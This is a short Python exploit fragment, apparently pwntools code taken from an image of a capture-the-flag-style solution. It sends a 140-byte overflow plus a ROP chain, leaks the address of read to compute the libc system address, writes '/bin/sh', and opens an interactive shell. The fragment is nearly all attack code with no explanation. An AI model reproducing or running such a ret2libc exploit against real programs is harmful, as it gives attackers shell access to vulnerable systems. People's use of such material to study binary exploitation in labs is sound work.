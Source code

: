 ```python

# call func ( system("/bin/sh") )
rop.read(e.bss())

p.send("A"*140 + rop.chain())

# recv read_addr (leak)
read_addr = u32(p.recv(4))
print "[*]read_addr : " +hex(read_addr)

# calc system_addr
system_addr = read_addr - libc.symbols['read'] + libc.symbols['system']
print "[*]system_addr : " + hex(system_addr)

# send "/bin/sh"
p.send(binsh)

# send system_addr
p.send(p32(system_addr))

p.interactive()
```
-----
